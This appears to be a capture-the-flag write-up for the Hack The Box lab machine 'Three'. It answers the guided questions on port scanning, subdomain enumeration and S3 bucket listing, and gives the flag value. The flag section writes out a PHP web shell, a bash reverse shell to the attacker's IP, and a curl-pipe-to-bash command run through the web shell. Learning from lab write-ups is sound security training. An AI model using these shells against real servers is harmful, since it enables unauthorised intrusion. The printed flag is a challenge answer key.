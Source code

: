 ### Three

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 1](/StartingPoint/Tier1/)<br>
**Tags:** Cloud, Custom Applications, AWS, Reconnaissance, Web Site Structure Discovery, Bucket Enumeration, Arbitrary File Upload, Anonymous/Guest Access<br>


---

#### Task 1

**How many TCP ports are open?**

> 2

We use the `nmap` command with the `-sT` flag to scan TCP ports.
![Nmap TCP Scan](open_ports.png)



---

#### Task 2

**What is the domain of the email address provided in the "Contact" section of the website?**

> thetoppers.htb

We navigate to the contact page on the website:

![Contact Email Domain](contact.png)



---

#### Task 3

**In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?**

> /etc/hosts

![Adding Host](adding_host.png)



---

#### Task 4

**Which sub-domain is discovered during further enumeration?**

> s3.thetoppers.htb

First we use `wget` to download a [dns subdomain wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/DNS/subdomains-top1million-5000.txt) as `wordlist.txt`. Using gobuster, we enumerate vhosts using the our downloaded wordlist. We use the `--apend-domain` flag to get only subdomains of `thetoppers.htb`.

![Subdomain](subdomain.png)



---

#### Task 5

**Which service is running on the discovered sub-domain?**

> Amazon s3



---

#### Task 6

**Which command line utility can be used to interact with the service running on the discovered sub-domain?**

> awscli



---

#### Task 7

**Which command is used to set up the AWS CLI installation?**

> aws configure



---

#### Task 8

**What is the command used by the above utility to list all of the S3 buckets?**

> aws s3 ls

After using the `aws configure` command, we use the `aws s3 ls` command with the endpoint set to `http://s3.thetoppers.htb` the list all the s3 buckets:

![List S3 Buckets](s3_buckets.png)



---

#### Task 9

**This server is configured to run files written in what web scripting language?**

> php

We use the `aws s3 ls` command again to view all the files in the s3 bucket. It seems as though this bucket is hosting a website written in php.

![php Website](language.png)



---

#### Flag

> a980d99281a28d638ac68b9bf9453c2b

First make a `shell.php` file (on our computer) which allows us to make a syscall executing a command `cmd`:

```php
<?php system($_GET["cmd"]); ?>
```

We add our `shell.php` to the s3 bucket which hosts our php shell as a page on the `http://thetoppers.htb` website. Now we send commands to our php shell (which are executed on the webserver) by visiting `http://thetoppers.htb/shell.php?cmd={shell cmd}`. The resulting page content is the output from the commands we send:
![PHP Shell](php_shell.png)

Next we make a `shell.sh` file. We setup a socket on our computer on port `12345`. We use the `0>&1` operator to allow us to read inputted commands from our socket. We use the `bash -i` command to actually execute these commands on our computer and use the `>&` operator to redirect our output from our command to our socket:

```bash
#!/bin/bash
bash -i >& /dev/tcp/{Our IP}/12345 0>&1
```

We the use the `nc -lp` command to set up a listener on port `12345` of our computer:

![Reverse Bash Shell](reverse_shell.png)

Next we setup an http server on port `8080` of our computer. This http server hosts our `shell.sh` file allowing other computers to access the file via the server:

![Setting Up HTTP Server](http_server.png)

Lastly we visit `http://thetoppers.htb/shell.php?cmd=curl%20{Our IP}:8080/shell.sh|bash`. This uses our php shell `shell.php` on the webserver to visit the HTTP server hosted on our computer to download our bash shell `shell.sh` We use `|bash` to actually execute commands given to our bash shell via netcat (on our computer) on the webserver. Since we also up a listener on netcat, we can see the output of the commands executed on the webserver.

Using our reverse shell, we search for the `flag.txt` file and then display its contents:

![Final Reverse Shell](reverse_shell2.png)

---